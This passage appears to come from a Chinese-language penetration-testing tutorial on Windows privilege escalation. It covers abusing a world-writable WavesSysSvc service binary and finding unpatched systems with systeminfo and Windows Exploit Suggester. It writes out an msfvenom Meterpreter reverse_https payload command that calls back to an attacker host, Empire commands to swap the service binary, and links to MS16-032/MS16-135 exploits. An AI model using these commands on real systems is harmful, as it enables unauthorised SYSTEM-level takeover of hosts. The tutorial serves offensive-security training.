 最突出的是:

- ServiceName： WavesSysSvc
- Path： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFile： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFilePermissions： {WriteOwner, Delete, WriteAttributes, Synchronize…}
- **ModifiableFileIdentityReference： Everyone**
- StartName： LocalSystem

看起来任何人都可以编写 WavesSysSyc 服务。这意味着我们可以将 WaveSysSvc64.exe 文件替换为我们自己的恶意二进制文件:

- 创建一个 Meterpreter 二进制文件（后续的文章将讨论如何绕过杀毒软件）
  - msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe
- 使用 Empire 上传二进制文件并替换原始二进制文件
  - upload ./shell.exe C:\users\test\shell.exe
  - shell copy C:\users\test\Desktop\shell.exe “C:\ProgramFiles\Waves\MaxxAudio\WavesSysSvc64.exe”
  - 重新启动服务或等待其重启

一旦服务重新启动，你你应该会收到一个升级为 `system` 权限的 Meterpreter shell 。使用 `PowerUp` powershell 脚本，你将发现许多不同的服务都会有权限提升的可能性。如果你想深入了解 Windows 权限提升的底层问题，请查看 FuzzSecurity 的文章：http://www.fuzzysecurity.com/tutorials/16.html 。

对于未打补丁的 Windows 系统，我们确实有一些权限升级攻击，比如：（ https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1 ）和 ( https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135 ），但是我们如何快速识别目标系统上安装了哪些补丁呢，我们可以在受害者系统上使用系统默认自带的命令来查看安装了哪些系统补丁包。Windows 自带默认命令`systeminfo` 将提取任何给定的 Windows 主机的所有补丁安装历史记录。我们可以拿回这个输出结果，将其复制到我们的 Kali 系统并运行 Windows Exploit Suggester 以查找已知的漏洞然后针对性的进行漏洞利用从而提升权限。


回到你攻击的 Windows 10系统：
- systeminfo
- systeminfo > windows.txt
- 将 windows.txt 复制到你的 Kali 虚拟机的  /opt/Windows-Exploit-Suggester 下
- python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls

![](../images/chapter_4/4-14.png)

这个工具已经有一段时间没有被维护了，但是你还是可以轻松地从中寻找到你正需要的能权限提升的漏洞。

如果我们处在一个已经打好所有补丁的 Windows 主机环境中，我们将重点关注第三方软件中的不同权限提升漏洞或操作系统的任何 0day 漏洞。例如，我们一直在寻找下面这样的漏洞 http://bit.ly/2HnX5id ，这是 Windows 中的权限升级漏洞，现在还没有修补。通常在这些场景中，可能会有一些基本的 POC 代码，但是我们需要测试、验证并多次复现这个漏洞。我们经常监控某些领域存在公共特权升级的漏洞：
- http://insecure.org/search.html?q=privilege%20escalation
- https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=escalation&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids
